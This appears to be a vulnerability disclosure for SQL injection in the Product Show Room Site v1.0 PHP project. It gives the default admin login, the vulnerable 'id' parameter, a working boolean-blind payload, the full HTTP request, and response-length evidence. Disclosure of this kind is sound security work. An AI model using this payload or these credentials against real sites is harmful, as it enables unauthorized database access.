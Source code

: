 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=products/view_product&id=

Vulnerability location: /psrs/admin/?page=products/view_product&id=, id

Current database name: hsrs_db ,length is 7

[+] Payload: /psrs/admin/?page=products/view_product&id=3%27%20and%20length(database())%20=7--+// Leak place ---> id

```sql
GET /psrs/admin/?page=products/view_product&id=3%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 31202
![image](https://user-images.githubusercontent.com/54017627/171828240-2fa67c8c-f37c-43a0-97ac-5450fafcc3dc.png)

![image](https://user-images.githubusercontent.com/54017627/171828320-76d7bc96-23b2-4589-a49c-a394acfa389f.png)

When length (database ()) = 7, Content-Length: 33019
![image](https://user-images.githubusercontent.com/54017627/171828201-70cf00a3-811f-40b2-93ab-41e61215e51c.png)

![image](https://user-images.githubusercontent.com/54017627/171828273-60648973-5071-44da-82a9-c590b3712426.png)
